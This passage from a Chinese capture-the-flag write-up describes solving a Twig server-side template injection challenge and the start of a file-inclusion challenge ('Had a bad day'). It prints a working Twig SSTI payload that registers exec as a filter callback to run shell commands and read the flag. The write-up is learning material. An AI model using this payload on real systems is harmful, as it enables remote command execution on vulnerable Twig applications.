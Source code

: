 ![在这里插入图片描述](img/b1fe338953798346865dba2d3683b09b.png)
`user`这里输入什么就显示什么文本，尝试模板注入`{{7*7}}`可以执行

大佬说因为页面为php所以确定为`twig`,

使用它的payload

`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

就得到flag了，说实话，没有完全弄懂原理到底是什么，会用paylod了倒是…

这种感觉还是挺不自在的

**SSTI**

# [BSidesCF 2020]Had a bad day

![在这里插入图片描述](img/a3cc41c59226d1404079ea03ba565183.png)
![在这里插入图片描述](img/bf1be844b4dd77b928615fa361bd546d.png)
点不同选项会出来不同的小猫小狗图片，点第二次发现和之前的不一样了，所以我怀疑有文件包含点，并且随机文件，我们仔细看看
